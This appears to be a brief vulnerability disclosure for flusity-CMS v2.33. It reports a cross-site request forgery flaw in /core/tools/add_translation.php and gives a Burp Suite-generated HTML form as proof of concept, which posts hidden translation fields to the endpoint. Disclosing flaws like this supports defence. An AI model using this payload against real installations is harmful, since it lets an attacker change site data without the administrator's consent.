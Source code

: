 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/add_translation.php

![1](https://github.com/Carl0724/cms/assets/82999276/769a903d-0d17-417c-82c1-b3ed4aa5bf91)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/add_translation.php" method="POST">
      <input type="hidden" name="edit&#95;id" value="" />
      <input type="hidden" name="language&#95;code" value="lt" />
      <input type="hidden" name="new&#95;language&#95;code" value="" />
      <input type="hidden" name="translation&#95;key" value="cs" />
      <input type="hidden" name="translation&#95;value" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/Carl0724/cms/assets/82999276/a4c74b1a-31e9-4b7e-91ae-0772ead4e24a)


Successed

![3](https://github.com/Carl0724/cms/assets/82999276/65396544-4f7c-4291-8691-1eb477c8d60d)
